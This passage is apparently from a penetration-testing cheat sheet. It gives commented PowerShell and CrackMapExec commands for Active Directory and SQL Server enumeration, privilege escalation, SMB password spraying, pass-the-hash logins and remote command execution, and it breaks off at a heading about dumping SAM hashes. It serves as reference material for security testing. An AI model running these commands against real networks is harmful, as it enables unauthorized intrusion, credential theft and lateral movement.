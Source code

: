 ```shell
Get-NetUser                                    # identify all AD users in the domain
                                               # (can identify high-privilege or rarely used users)
Get-NetGroup                                   # list all AD groups in the domain
Get-NetGroupMember -GroupName "<GROUP_NAME>"   # find users in a group
Get-NetComputer                                # identify computers on the AD domain
Get-NetDomainTrust                             # show trust relationship between this domain and other domains
Get-NetSession -ComputerName <COMPUTER_NAME>   # show who is currently logged to a specific computer
```

PowerSploit is no longer supported by its developers, so it is rarely used in real-life penetration testing.  


### PowerUpSQL

PowerUpSQL is a collection of PowerShell scripts to automate the discovery and exploitation of SQL servers.  

```shell
Get-SQLInstanceLocal -Verbose                      # enumerate the SQL server instances on the local network   
Get-SQLDomainUser -UserState SmartCardRequired     # enumerate users configured to require a smartcard for login (to avoid them)    
Get-SQLDomainUser -UserState TrustedForDelegation  # enumerate users who can impersonate other users (good targets for privilege escalation)
Get-SQLServerInfo -Instance "SQLSERVER01"          # get info about a SQL server instance (version, users, roles...)
Get-SQLServerLoginDefaultPw  -Verbose              # identify SQL server instances using default credentials
Invoke-SQLEscalatePriv -Instance "SQLSERVER01"     # attempt to escalate privilege on an SQL server instance
```


### CrackMapExec (CME)

CrackMapExec is a post-exploitation tool used for network enumeration, credential validation an lateral movements on Windows target machines.  
It is also used to automate credential-based attacks, like password spraying or pass-the-hash attacks on services supporting authentication by hash.

CrackMapExec is no longer maintained, so its effectiveness is decreasing over time.  
Its maintainer retired in 2023, and the main remaining contributors created **NetExec** as its successor.

```shell
# enumerate SMB shares
crackmapexec smb 192.168.1.0/24 --shares

# check for SMB guest access
crackmapexec smb 192.168.1.10 -u '' -p ''

# authenticate with SMB credentials to validate them
crackmapexec smb 192.168.1.10 -u testuser -p qwerty

# password spraying of a single password against several users and/or hosts on the SMB service
crackmapexec smb <TARGET_IP_OR_RANGE> -u users.txt -p qwerty

# pass the hash attack : log in using a hash and run a command prompt on the target
crackmapexec smb <TARGET_IP> -u testuser -H <HASH>

# execute a command over SMB (require Administrator privileges)
crackmapexec smb <TARGET_IP> -u testuser -p qwerty -x 'ipconfig'

# dump SAM hashes over SMB (require SYSTEM privileges, above Administrator)
```